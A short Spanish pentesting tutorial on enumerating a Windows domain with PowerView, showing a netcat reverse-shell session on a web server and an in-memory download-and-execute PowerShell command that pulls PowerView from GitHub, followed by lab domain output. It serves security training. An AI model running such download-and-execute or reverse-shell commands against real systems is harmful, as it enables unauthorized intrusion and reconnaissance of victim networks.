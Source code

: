 # Enumeración con PowerView

Utilizando PowerShell, los atacantes pueden recopilar sigilosamente datos internos de los usuarios y explotarlos.

Los ciberdelincuentes aprovechan PowerShell para ejecutar malware sin archivos. Estos archivos no binarios residen en la memoria y les permiten inyectar cargas útiles en aplicaciones en ejecución o mediante secuencias de comandos. Los scripts de entrega de carga útil casi siempre se ejecutan, ya que PowerShell es una aplicación confiable y ampliamente implementada. Además, la integración profunda de Windows de PowerShell y la capacidad de acceder a todas las partes de un host a través del marco .NET brindan a los malos actores la cobertura mejorada que necesitan para eludir los controles de seguridad tradicionales y violar las redes.

En conclusión, powerShell es una poderosa herramienta de post-explotacion que permite a los auditores de seguridad explorar una gran superficie de ataque y explotar muchas posibilidades de ataque.

{% embed url="https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters" %}

## Introducción a PowerView

PowerView, desarrollada por Will Schroeder, es una herramienta que utiliza la función de dominio de Windows para recopilar información sobre una red y sus usuarios. Todas las opciones de la herramienta envían solicitudes legítimas que pueden ejecutarse en el contexto de los derechos de un usuario de dominio.

Enlace de descarga de PowerView.ps1:

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}

Para importar el script en memoria, podemos ejecutar los siguientes comandos:

{% code overflow="wrap" %}
```powershell
kqli@kali=> nc -nvlp 443                                                                                           
listening on [any] 443 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 37208
Windows PowerShell running as user WEBSERVER$ on WEBSERVER
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')
PS C:\windows\system32\inetsrv> Get-NetDomain

Forest                  : spartancybersec.corp
DomainControllers       : {First-DC.spartancybersec.corp}
Children                : {}
DomainMode              : Unknown
DomainModeLevel         : 7
Parent                  : 
PdcRoleOwner            : First-DC.spartancybersec.corp
RidRoleOwner            : First-DC.spartancybersec.corp
InfrastructureRoleOwner : First-DC.spartancybersec.corp
Name                    : spartancybersec.corp
```
{% endcode %}

